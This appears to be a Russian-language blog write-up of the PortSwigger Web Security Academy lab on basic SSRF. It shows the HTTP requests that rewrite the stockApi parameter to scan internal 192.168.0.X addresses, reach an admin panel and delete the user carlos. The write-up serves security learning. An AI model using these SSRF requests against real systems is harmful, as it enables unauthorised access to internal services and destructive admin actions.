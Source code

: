 ```yaml
---
title: "Basic SSRF against another back-end system"
date: 2025-07-22
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/server-side-vulnerabilities-apprentice/ssrf-apprentice/ssrf/lab-basic-ssrf-against-backend-system"
classes: wide
---
```


Эта лаба содержит уязвимость **SSRF** (Server-side request forgery).

Для прохождения лабы нам нужно найти `ip`-адрес бекенд сервиса, на котором расположена панель администратора `/admin` на порту `8080`, а затем удалить пользователя `carlos`.

Мы знаем, что адрес сервиса начинается с `192.168.0.X` и располагается на порту `8080`.

```
https://0a8c001c03be57138111448800b200f6.web-security-academy.net/
```

## Solution

{% raw %}
```http
POST /product/stock HTTP/2
Host: 0a8c001c03be57138111448800b200f6.web-security-academy.net
Cookie: session=AiSe3EMbwjlxeqc4evXRCR4B3leJ8qOA
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a8c001c03be57138111448800b200f6.web-security-academy.net/product?productId=2
Content-Type: application/x-www-form-urlencoded
Content-Length: 96
Origin: https://0a8c001c03be57138111448800b200f6.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

stockApi=http%3A%2F%2F192.168.0.1%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D2%26storeId%3D1
```
{% endraw %}

Подставим предполагаемый адрес в параметр `stockApi`:

```http
POST /product/stock HTTP/2
Host: 0a8c001c03be57138111448800b200f6.web-security-academy.net
Cookie: session=AiSe3EMbwjlxeqc4evXRCR4B3leJ8qOA
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a8c001c03be57138111448800b200f6.web-security-academy.net/product?productId=2
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Origin: https://0a8c001c03be57138111448800b200f6.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

stockApi=http://192.168.0.1:8080/admin
```

Получили ответ:

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 19

"Missing parameter"
```

Теперь нужно перебрать значения от `2` до `255`, пока не получим код `200`. Для этого можно использовать `Intruder` в `Burp Suite`.

Перебором `ip` адресов я нашел, что нужный нам — это `192.168.0.53`. Получим код страницы с админ панелью с помощью запроса на адрес `http://192.168.0.53:8080/admin`:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_ssrf/IMG_Basic_SSRF_against_another_back-end_system/1.png){: height="200" .align-center}

Для удаления пользователя отправим запроса на адрес `http://192.168.0.53:8080/admin/delete?username=carlos` и затем проверим ответ:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_ssrf/IMG_Basic_SSRF_against_another_back-end_system/2.png){: height="200" .align-center}
